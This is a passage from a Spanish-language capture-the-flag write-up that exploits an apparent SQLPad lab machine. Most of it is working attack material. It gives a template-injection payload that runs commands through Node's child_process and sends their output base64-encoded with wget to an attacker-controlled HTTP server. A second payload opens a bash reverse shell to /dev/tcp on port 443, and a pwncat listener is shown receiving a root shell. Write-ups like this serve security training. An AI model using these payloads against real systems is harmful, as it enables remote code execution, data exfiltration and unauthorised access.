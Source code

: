 El payload que he utilizado es el siguiente.
```console
127.0.0.1 || {{ process.mainModule.require('child_process').exec('wget http://10.10.14.143:8081/?jbXWVuIjmuq=$(COMANDO | base64)') }}
```

Si por ejemplo ejecutamos un `ls` y estamos sirviendo un servidor web por el puerto 8081.
```console
$ sudo python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.198.243 - - [09/Sep/2024 21:10:52] "GET /?jbXWVuIjmuq= HTTP/1.1" 200 -
10.129.198.243 - - [09/Sep/2024 21:10:52] "GET /?jbXWVuIjmuq= HTTP/1.1" 200 -
10.129.198.243 - - [09/Sep/2024 21:11:04] "GET /?jbXWVuIjmuq=Kgphcy5kYgpjYWNoZQpkYi5kYgppbmRleC5odG1sP2hRa0NjWlFNak50YT0KaW5kZXguaHRtbD9q HTTP/1.1" 200 -
```

Vemos que me llega una petición GET con esta información `Kgphcy5kYgpjYWNoZQpkYi5kYgppbmRleC5odG1sP2hRa0NjWlFNak50YT0KaW5kZXguaHRtbD9q` en el parámetro `jbXWVuIjmuq`

Si lo decodificamos vemos que es el output del comando `ls` ejecutado en el servidor.
```console
$ echo "jbXWVuIjmuq=Kgphcy5kYgpjYWNoZQpkYi5kYgppbmRleC5odG1sP2hRa0NjWlFNak50YT0KaW5kZXguaHRtbD9q" | base64 -d
V#*
as.db
cache
db.db
index.html?hQkCcZQMjNta=
index.html?j
```

Nos podemos mandar una reverse shell.
```python
127.0.0.1 || {{ process.mainModule.require('child_process').exec('wget http://10.10.14.143:8081/?jbXWVuIjmuq=$(bash -c "bash -i >& /dev/tcp/10.10.14.143/443 0>&1" | base64)') }}
```

Y si nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
$ sudo pwncat-cs -lp 443
/usr/local/lib/python3.11/dist-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated and will be removed in a future release
  'class': algorithms.Blowfish,
[21:13:39] Welcome to pwncat 🐈!                                                                                                   __main__.py:164
[21:14:12] received connection from 10.129.198.243:54260                                                                                bind.py:84
[21:14:13] 10.129.198.243:54260: registered new host w/ db                                                                          manager.py:957
(local) pwncat$                                                                                                                                   
(remote) root@c184118df0a6:/var/lib/sqlpad# whoami
root
```

Podemos comprobar que estamos en un contendor.
```console
(remote) root@c184118df0a6:/var/lib/sqlpad# hostname -I                                                                                          
172.17.0.2
```
